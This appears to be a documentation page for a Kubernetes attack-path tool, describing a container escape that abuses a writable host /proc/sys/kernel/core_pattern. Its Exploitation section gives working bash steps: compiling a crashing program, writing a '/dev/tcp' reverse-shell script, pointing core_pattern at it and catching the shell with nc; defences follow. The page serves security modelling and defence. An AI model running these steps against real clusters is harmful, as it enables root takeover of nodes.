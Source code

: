 # CE_UMH_CORE_PATTERN

Container escape via the `core_pattern` `usermode_helper` in the case of an exposed `/proc` mount.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

[/proc/sys/kernel/core_pattern](https://man7.org/linux/man-pages/man5/core.5.html) defines a program which is executed on core-file generation (typically a program crash) and is passed the core file as standard input if the first character of this file is a pipe symbol `|`. This program is run by the root user and will allow up to 128 bytes of command line arguments. Attacker control of this progam would allow trivial code execution within the container host given any crash and core file generation (which can be simply discarded during a myriad of malicious actions). With write access to the host `/proc` directory and no additional privileges, an attacker can abuse this to escape a container and gain root on the containing K8s node.

## Prerequisites

Execution within a container process with the host `/proc/sys/kernel` (or any parent directory) mounted inside the container.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_UMH_CORE_PATTERN.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_MOUNT](./VOLUME_MOUNT.md#checks). If the host `/proc/sys/kernel` (or any parent directory) is mounted, this attack will be possible. Example below.

```bash
$ cat /proc/self/mounts

...
proc /hostproc proc rw,nosuid,nodev,noexec,relatime 0 0
...
```

## Exploitation

First find the path of the container’s filesystem on the host. This can be done by retrieving the current mounts (see [VOLUME_MOUNT](./VOLUME_MOUNT.md#checks)). Looks for the `upperdir` value of the overlayfs entry associated with containerd:

```bash
$ cat /etc/mtab
...
overlay / overlay rw,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/27/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/work 0 0
...

# Store path in a variable for future use
$ OVERLAY_PATH=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs
```

Oneliner alternative:

```bash
export OVERLAY_PATH=$(cat /proc/mounts | grep -oe upperdir=.*, | cut -d = -f 2 | tr -d , | head -n 1)
```

Next create a mini program that will crash immediately and generate a kernel coredump. For example:

```bash
echo 'int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
		buf[i] = 1;
	}
	return 0;
}' > /tmp/crash.c && gcc -o crash /tmp/crash.c
```

Compile the program and copy the binary into the container as crash. Next write a shell script to be triggered inside the container’s file system as `shell.sh`:

```bash
# Reverse shell
REVERSE_IP=$(hostname -I | tr -d " ") && \
echo '#!/bin/sh' > /tmp/shell.sh
echo "sh -i >& /dev/tcp/${REVERSE_IP}/9000 0>&1" >> /tmp/shell.sh && \
chmod a+x /tmp/shell.sh
```

Finally write the `usermode_helper` script path to the `core_pattern` helper path and trigger the container escape:

```bash
cd /hostproc/sys/kernel
echo "|$OVERLAY_PATH/tmp/shell.sh" > core_pattern
sleep 5 && ./crash & nc -l -vv -p 9000
```

## Defences

### Monitoring

+ Use the Datadog agent to monitor for creation of new `usermode_helper` programs via writes to known locations, in this case `/proc/sys/kernel_core_pattern`.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/proc` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapeUmhCorePattern](../../pkg/kubehound/graph/edge/escape_umh_core_pattern.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Sensitive Mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
+ [Escaping privileged containers for fun](https://pwning.systems/posts/escaping-containers-for-fun/)

